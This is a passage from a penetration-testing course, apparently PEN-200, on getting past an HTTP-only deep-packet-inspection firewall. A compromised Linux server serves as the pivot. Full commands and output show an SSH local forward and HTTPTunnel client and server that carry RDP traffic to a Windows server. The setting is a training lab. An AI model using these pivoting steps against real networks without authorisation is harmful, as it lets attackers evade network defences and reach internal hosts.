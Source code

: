 So far, we have traversed firewalls based on port filters and stateful inspection. However, certain deep packet content inspection devices may only allow specific protocols. If, for example, the SSH protocol is not allowed, all the tunnels that relied on this protocol would fail.

To demonstrate this, we will consider a new scenario. Similar to our *NIX scenarios, let's assume we have compromised a Linux server through a vulnerability, elevated our privileges to root, and have gained access to the passwords for both the root and student users on the machine.

Even though our compromised Linux server does not actually have deep packet inspection implemented, for the purposes of this section we will assume that a deep packet content inspection feature has been implemented that only allows the HTTP protocol. Unlike the previous scenarios, an SSH-based tunnel will not work here.

In addition, the firewall in this scenario only allows ports 80, 443, and 1234 inbound and outbound. Port 80 and 443 are allowed because this machine is a web server, but 1234 was obviously an oversight since it does not currently map to any listening port in the internal network.

In this case, our goal is to initiate a remote desktop connection from our Kali Linux machine to the Windows Server 2016 through the compromised Linux server using only the HTTP protocol.

We will rely on [_HTTPTunnel_](https://http-tunnel.sourceforge.net) to encapsulate our traffic within HTTP requests, creating an "HTTP tunnel". HTTPTunnel uses a client/server model and we'll need to first install the tool and then run both a client and a server.

The [_stunnel_](https://www.stunnel.org) tool is similar to _HTTPTunnel and can be used in similar ways. It is a multiplatform GNU/GPL-licensed proxy that encrypts arbitrary TCP connections with SSL/TLS.

We can install HTTPtunnel from the Kali Linux repositories as follows:

```
kali@kali:~$ apt-cache search httptunnel
httptunnel - Tunnels a data stream in HTTP requests

kali@kali:~$ sudo apt install httptunnel
...
```

Before diving in, we will describe the traffic flow we are trying to achieve.

First, remember that we have a shell on the internal Linux server. This shell is HTTP-based (which is the only protocol allowed through the firewall) and we are connected to it via TCP port 443 (the vulnerable service port).

We will create a local port forward on this machine bound to port 8888, which will forward all connections to the Windows Server on port 3389, the Remote Desktop port. Note that this port forward is unaffected by the HTTP protocol restriction since both machines are on the same network and the traffic does not traverse the deep packet inspection device. However, the protocol restriction will create a problem for us when we attempt to connect a tunnel from the Linux server to our Internet-based Kali Linux machine. This is where our SSH-based tunnel will be blocked because of the disallowed protocol.

To solve this, we will create an HTTP-based tunnel (a permitted protocol) between the machines using HTTPTunnel. The "input" of this HTTP tunnel will be on our Kali Linux machine (localhost port 8080) and the tunnel will "output" to the compromised Linux machine on listening port 1234 (across the firewall). Here the HTTP requests will be decapsulated, and the traffic will be handed off to the listening port 8888 (still on the compromised Linux server) which, thanks to our SSH-based local forward, is redirected to our Windows target's Remote Desktop port.

When this is set up, we will initiate a Remote Desktop session to our Kali Linux machine's localhost port 8080. The request will be HTTP-encapsulated, sent across the HTTPTunnel as HTTP traffic to port 1234 on the Linux server, decapsulated, and finally sent to our Windows target's remote desktop port.

Take a moment to understand this admittedly complex traffic flow before proceeding. Port forwarding with encapsulation can be complicated because we have to consider firewall rules, protocol limitations, and both inbound and outbound port allocations. It often helps to pause and write a map or flow chart like the one shown below before executing the actual commands. This process is complicated enough without attempting to figure out both logic flow and syntax simultaneously.

![Figure 9: HTTP encapsulation](https://offsec-platform-prod.s3.amazonaws.com/offsec-courses/PEN-200/imgs/port_redirection_and_tunneling/1d20f066892dca8975ae5cf961bd46b8-port_redirection_and_tunneling_diagram_06.png)

To begin building our tunnel, we will create a local SSH-based port forward between our compromised Linux machine and the Windows remote desktop target. Remember, protocol does not matter here (SSH is allowed) as this traffic is unaffected by deep packet inspection on the internal network.

To do this, we will create a local forward (-L) from this machine (127.0.0.1) and will log in as student, using the new password we created post-exploitation. We will forward all requests on port 8888 (0.0.0.0:8888) to the Windows Server's remote desktop port (192.168.1.110:3389):

```
www-data@debian:/$ ssh -L 0.0.0.0:8888:192.168.1.110:3389 student@127.0.0.1
ssh -L 0.0.0.0:8888:192.168.1.110:3389 student@127.0.0.1
Could not create directory '/var/www/.ssh'.
The authenticity of host '127.0.0.1 (127.0.0.1)' can't be established.
ECDSA key fingerprint is SHA256:RdJnCwlCxEG+c6nShI13N6oykXAbDJkRma3cLtknmJU.
Are you sure you want to continue connecting (yes/no)? yes
yes
Failed to add the host to the list of known hosts (/var/www/.ssh/known_hosts).
student@127.0.0.1's password: lab
...

student@debian:~$ ss -antp | grep "8888"       
ss -antp | grep "8888"
LISTEN     0      128          *:8888                     *:*   
```

Next, we must create an HTTPTunnel out to our Kali Linux machine in order to slip our traffic past the HTTP-only protocol restriction. As mentioned above, HTTPTunnel uses both a client (_htc_) and a server (_hts_).

We will set up the server (hts), which will listen on localhost port 1234, decapsulate the traffic from the incoming HTTP stream, and redirect it to localhost port 8888 (--forward-port localhost:8888) which, thanks to the previous command, is redirected to the Windows target's remote desktop port:

```
student@debian:~$ hts --forward-port localhost:8888 1234
hts --forward-port localhost:8888 1234

student@debian:~$ ps aux | grep hts
ps aux | grep hts
student  12080  0.0  0.0   2420    68 ?        Ss   07:49   0:00 hts --forward-port localhost:8888 1234
student  12084  0.0  0.0   4728   836 pts/4    S+   07:49   0:00 grep hts

student@debian:~$ ss -antp | grep "1234"
ss -antp | grep "1234"
LISTEN  0  1   *:1234   *:*    users:(("hts",pid=12080,fd=4))
```

The ps and ss commands show that the HTTPTunnel server is up and running.

Next, we need an HTTPTunnel client that will take our remote desktop traffic, encapsulate it into an HTTP stream, and send it to the listening HTTPTunnel server. This (htc) command will listen on localhost port 8080 (--forward-port 8080), HTTP-encapsulate the traffic, and forward it across the firewall to our listening HTTPTunnel server on port 1234 (10.11.0.128:1234):

```
kali@kali:~$ htc --forward-port 8080 10.11.0.128:1234

kali@kali:~$ ps aux | grep htc
kali      10051  0.0  0.0   6536    92 ?        Ss   03:33   0:00 htc --forward-port 8080 10.11.0.128:1234
kali      10053  0.0  0.0  12980  1056 pts/0    S+   03:33   0:00 grep htc

kali@kali:~$ ss -antp | grep "8080"
LISTEN  0   0   0.0.0.0:8080    0.0.0.0:*    users:(("htc",pid=2692,fd=4))
```

Again, the ps and ss commands show that the HTTPTunnel client is up and running.

Now, all traffic sent to TCP port 8080 on our Kali Linux machine will be redirected into our HTTPTunnel (where it is HTTP-encapsulated, sent across the firewall to the compromised Linux server and decapsulated) and redirected again to the Windows Server's remote desktop service.

We can validate that this is working by starting Wireshark to sniff the traffic, and verify it is being HTTP-encapsulated, before initiating a remote desktop connection against our Kali Linux machine's listening port 8080:

![Figure 10: RDP login on the Windows Server 2016 machine through the HTTP tunnel](https://offsec-platform-prod.s3.amazonaws.com/offsec-courses/PEN-200/imgs/port_redirection_and_tunneling/f7fdcf772bf6ae8781b19acdbbdd46ad-port_redirection_and_tunneling_06.png)

Excellent! The remote desktop connection was successful.

Inspecting the traffic in Wireshark, we confirm that it is indeed HTTP-encapsulated, and would have bypassed the deep packet content inspection device.

![Figure 11: Inspecting the HTTTP-encapsulated traffic in Wireshark](https://offsec-platform-prod.s3.amazonaws.com/offsec-courses/PEN-200/imgs/port_redirection_and_tunneling/871c2b3b2a9dd257a31a6b745eba2f98-port_redirection_and_tunneling_07.png)